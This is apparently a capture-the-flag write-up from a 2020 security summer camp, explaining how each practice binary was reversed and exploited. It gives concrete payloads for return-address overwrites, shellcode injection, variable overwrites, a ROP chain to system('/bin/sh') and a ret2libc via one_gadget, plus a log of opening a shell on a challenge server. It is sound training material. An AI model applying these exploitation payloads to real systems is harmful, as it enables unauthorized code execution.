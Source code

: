 # CyberSec summercamp 2020 
## pwn-ctf

## Challenges

### 張元Pwn-6 (50 pts)

First find the magic in binary file , then solve 1000 math questions with loop

Switch to interactive to `cat flag`

### 張元Pwn-7 (50 pts)

This challenge requires a little bit Reversing basic

#### stage1
We can see a simple `if` statement in function `stage1()`, as shown below:
    
    0x0040077d      8b45f4         mov eax, dword [var_ch]
    0x00400780      83e001         and eax, 1
    0x00400783      85c0           test eax, eax
    0x00400785      7434           je 0x4007bb
    0x00400787      8b45f4         mov eax, dword [var_ch]
    0x0040078a      2500001000     and eax, 0x100000
    0x0040078f      85c0           test eax, eax
    0x00400791      7428           je 0x4007bb
    0x00400793      8b45f4         mov eax, dword [var_ch]
    0x00400796      2500020000     and eax, 0x200              
    0x0040079b      85c0           test eax, eax
    0x0040079d      751c           jne 0x4007bb

we can try changing it into a C-like `if` statement:

`if ((var_ch & 1) != 0 && ((var_ch & 0x100000) != 0 && (var_ch & 0x200) == 0))`

base on this, we can write a keygen to crack `var_ch` in stage1

#### stage2

We can see it's trying to get three numbers from user input:

    0x00400810      e80bfeffff     call sym.imp.__isoc99_scanf
    0x00400815      8b45ec         mov eax, dword [var_14h]
    0x00400818      83f864         cmp eax, 0x64               
    0x0040081b      7530           jne 0x40084d
    0x0040081d      8b45f0         mov eax, dword [var_10h]
    0x00400820      3d00010000     cmp eax, 0x100              
    0x00400825      7526           jne 0x40084d
    0x00400827      8b45f4         mov eax, dword [var_ch]
    0x0040082a      3d0cb0cefa     cmp eax, 0xfaceb00c
    0x0040082f      751c           jne 0x40084d

based on the disassembly, we get three integers, 0x64, 0x100 and 0xfaceb00c


#### stage3

Again, the binary is comparing user input with a global varible

we can get the value of the varible(0x60107c) in the binary

send the numbers, and we get a shell

    [+] Opening connection to 139.110.112.192 on port 2117: Done
    [*] Switching to interactive mode
    Stage 2 completed
    Congrat! Here is your shell!
    $ cat flag
    BreakAllCTF{A_g-01d_h4cker_15_f4m1liar_w1th_b1n4ry_5ystem}

### 張元Pwn-8(50 pts)

From the assembly, we can see a shell function at `0x4006b6`

simply overwrite the return address as `0x4006b6`, we get a shell

### Angelboy Pwn-1(50 pts)

Same as the previous challenge, but this time the stack size is `0x20`

### Angelboy Pwn-2(50 pts)

Same as the previous challenge, but we're going to jump to our own shellcode instead of the given shell function

we can write the shellcode in the `Name` varible(because the shellcode made by `shellcraft()` is only 44 bytes)


then we can overwrite the return pointer to jump to our shellcode(at `Name`)

### 張元 Pwn-1(100 pts)

This is an varible overwrite challenge

we can see that the  binary is trying to compare some varible to `0xfaceb00c` and `0xdeadbeef`

simply overwrite these two numbers by sending a payload like this:

`'A' *12 + p32(0xfaceb00c) + p32(0xdeadbeef)`

then we see that the program is comparing our input with a random number 

we can adjust our payload, to overwrite the random number to a known integer

in my exploit, my  paylaod is :

`'A' * 12 + p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x12345678)`

now we know the password(0x12345678), then we can pass it easily and get a shell

### 張元 Pwn-9(100 pts)

This challenge is similar to `Angelboy Pwn-2`, but the stack location is randomized

but the binary still gives us the `RSP`:

`Your address of input buffer is 0x7fff38a14c30`

now we get the RSP, we can try making a payload like this:

`asm(shellcraft.sh()) + 'A' * (0x70 + 8 - len(asm(shellcraft.sh()))) + p64(rsp)`

send the payload, and we get a shell

### 張元 Pwn-10(100 pts)

This is a simple ROP challenge

we can first put string `/bin/sh` in the first varible

then, we try to craft a payload to bypass NX

our payload will be like :

`(some padding) + (pop rdi) + "/bin/sh" address + system() address`

from the disassembly, we know that this binary contains `system()` function:

`0x004006bf      e86cfeffff     call sym.imp.system`

after we put system() in stack, we have to pop "/bin/sh" to rdi

let's find some gadget using `ROPgadget`

`0x0000000000400773 : pop rdi ; ret`

our final payload looks like this:

`'A' * (48 + 8) + p64(0x0000000000400773) + p64(0x601070) + p64(0x004006bf)`

### Angelboy Pwn-3(100 pts)

This is a classic `return to libc` challenge

we're going to use a great tool called `one_gadget`, this way we won't have to craft a complicated payload by ourselves

our payload will be like:

`(some padding) + (the address that one_gadget give us)`

first, there is a memory leaking function in this program:

`Give me an address (in hex) :`

we can give the program the `got` address of `puts`

then it'll return a address, which is the address of `puts` in libc

we can get the target libc base address by doing `puts_addr - offset`

let's find the offset first(with readelf):

`404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5`

then use `one_gadget` to find the address to jump:

 `0x45216 execve("/bin/sh", rsp+0x30, environ)`


now we get the address, let's craft our payload:

`'A'* (0x110 + 8) + p64((libc_base + 0x45216)) ` 


### other

TBD
